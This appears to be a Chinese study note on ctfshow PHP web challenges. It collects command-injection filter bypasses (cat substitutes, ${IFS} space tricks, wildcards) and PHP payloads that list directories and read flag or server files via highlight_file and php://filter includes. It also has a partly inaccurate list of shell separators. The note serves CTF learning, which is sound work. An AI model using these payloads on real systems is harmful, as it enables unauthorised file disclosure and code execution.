 ```yaml
---
title: web入门2-php
date: 2024-06-11
categories:
  - 学习笔记
tags:
  - 初学者
  - 日记
---
```


​    

##     php(绕过)

- ![](https://picgo-1372933092.cos.ap-guangzhou.myqcloud.com/ima/20250810171504710.webp)

- ![](D:\image (1).png)

- 使用url编码

1. ```
   %09（tab） %20（sapce）
   ```

2. ```
   绕过cat使用：
   tac more less head tac tail nl od(二进制查看) vi vim sort uniq rev
   ```

3. ```
   绕过空格用：
   %09 <> ${IFS} $IFS$ {cat,fl*} %20
   ```

4. ```
   对flag的过滤（这里也就几个，索性就全丢出来了）
   1.‘’    （例如fl‘’ag）
   2.“”     （例如fl""ag)
   3.?       (例如fl??)
   4.*          (例如fl*）
   ```

   

## 命令相关

```
c=show_source('flag.php');
c=highlight_file('flag.php');
c=print_r(scandir(dirname(__FILE__)));#扫描当前目录有什么文件
c=$a=opendir('./');while(($file = readdir($a)) !=false){echo $file." ";} #扫描当前目录有什么文件"
c=print_r(scandir(current(localeconv())));#扫描当前目录有什么文件
c=highlight_file(next(array_reverse(scandir((dirname(__FILE__))))));
```

**在这块，ctfshow的web61到65基本都能用**

但是在66就不同了。show_source 被禁用。
先使用 scandir() 进行[目录扫描](https://so.csdn.net/so/search?q=目录扫描&spm=1001.2101.3001.7020)c=print_r(scandir('.'))
![](https://picgo-1372933092.cos.ap-guangzhou.myqcloud.com/ima/20250810171957598.webp)

当前目录下只有 index.php 和 flag.php 	扫描根目录；c=print_r(scandir('/'));

![](https://picgo-1372933092.cos.ap-guangzhou.myqcloud.com/ima/20250810172032733.webp)

### **目录扫描的方法**

![](https://picgo-1372933092.cos.ap-guangzhou.myqcloud.com/ima/20250810172116982.webp)

![](https://picgo-1372933092.cos.ap-guangzhou.myqcloud.com/ima/20250810172135277.webp)

![](https://picgo-1372933092.cos.ap-guangzhou.myqcloud.com/ima/20250810172154372.webp)

其他常用的突破方式：

https://blog.csdn.net/qq_60518252/article/details/122686401?fromshare=blogdetail&sharetype=blogdetail&sharerId=122686401&sharerefer=PC&sharesource=2301_80915592&sharefrom=from_link

highlight_file 读取，如读取的被禁用了，那么可以用文件包含

c=include('/flag.txt');

print_r 也被禁用了，那就用var_dump	 var_export 函数打印变量c=var_export(scandir('/'));

### 当是get时，include文件包含

/?c=include"$_GET[a]"?>&a=php://filter/convert.base64-encode/resource=flag.php

### 当是post时，include文件包含

c=include($_POST['file']);&file=php://filter/convert.base64-encode/resource=flag.php

------

| //只执行后面那条命令

 || //只执行前面那条命令

 & //两条命令都会执行

 && //两条命令都会执行

